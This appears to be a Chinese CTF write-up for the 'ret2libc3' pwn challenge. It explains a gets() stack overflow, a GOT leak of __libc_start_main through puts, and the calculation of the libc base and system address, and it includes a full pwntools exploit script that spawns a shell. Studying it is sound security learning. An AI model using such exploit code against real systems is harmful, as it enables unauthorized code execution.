 明显的gets栈溢出，但是这次并没有后面函数，也没有`/bin/sh`字符串

 libc.so 动态链接库中的函数之间相对偏移是固定的。动态编译的程序中真实地址=偏移地址+基地址，不同版本的libc库，其偏移不同，我们我们可以通过libc库版本去寻找每个函数的偏移，泄露已知函数的真实地址去计算其基地址，从而构造出system的函数的真实地址。

当知道了了libc中一个函数的地址就能知道该程序利用的libc，从而知道其他函数的地址。所以获取libc中函数的地址的方法就是：通过got表泄露，即输出某个got表的内容，但是因为延迟绑定的原因，需要泄露已经执行过的函数地址，通过puts或write等函数打印出来

![image-20240301170001516](images/53.png)

我们可以去泄露 __libc_start_main 的地址，这是因为它是程序最初被执行的地方，也可以直接泄露puts

```
from pwn import *
from LibcSearcher import *
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
# context(os='linux', arch = 'amd64', log_level = 'debug')
puts_plt = elf.plt['puts']	# 获取puts的plt地址
libc_start_main_got = elf.got['__libc_start_main']	# 获取__libc_start_main的got地址
# start_addr = elf.symbols['main']
start_addr = elf.symbols['_start']		# 获取程序的起始地址，在泄露got表内容后程序执行main函数
payload1 = cyclic(112) + p32(puts_plt) + p32(start_addr) + p32(libc_start_main_got)	# 溢出到puts打印got表内容，返回到main函数

p.sendlineafter("Can you find it !?", payload1)

libc_start_main_addr = u32(p.recv()[0:4])  #接收libc_start_main的真实地址，占4个字节

print("puts_plt:{}, libc_start_main_got: {}, start_addr: {}".format(hex(puts_plt), hex(libc_start_main_got), hex(start_addr)))
print("libc_start_main_addr: ", hex(libc_start_main_addr))
# libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
# libc_addr = libc_start_main_addr - libc.dump('__libc_start_main')
# system_addr = libc_addr + libc.dump('system')
# bin_sh_addr = libc_addr + libc.dump('str_bin_sh')
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)	# 寻找对应的libc
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')	# 获取libc基地址
system_addr = libcbase + libc.dump('system')	# 基地址加上偏移得到system函数的真实地址
bin_sh_addr = libcbase + libc.dump('str_bin_sh')

payload2 = cyclic(112) + p32(system_addr) + p32(0x1) + p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()

# 0xf7d6bde0
```
